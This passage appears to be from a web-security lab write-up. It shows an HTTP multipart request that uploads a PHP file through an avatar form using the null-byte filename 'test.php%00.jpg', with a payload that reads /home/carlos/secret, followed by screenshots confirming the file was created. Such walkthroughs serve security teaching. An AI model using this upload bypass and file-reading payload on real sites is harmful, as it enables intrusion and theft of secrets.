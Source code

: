 The payload “test.php%00.jpg” uploads a file “test.php”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------384622689610978532422380962615
Content-Disposition: form-data; name="avatar"; filename="test.php%00.jpg"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------384622689610978532422380962615
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/fc5c46a2eb329ab4002d80e41fe86f2f.png)

The file test.php has been created:

![img](media/7b9eb74b409ad063908d7cfc34533c0e.png)
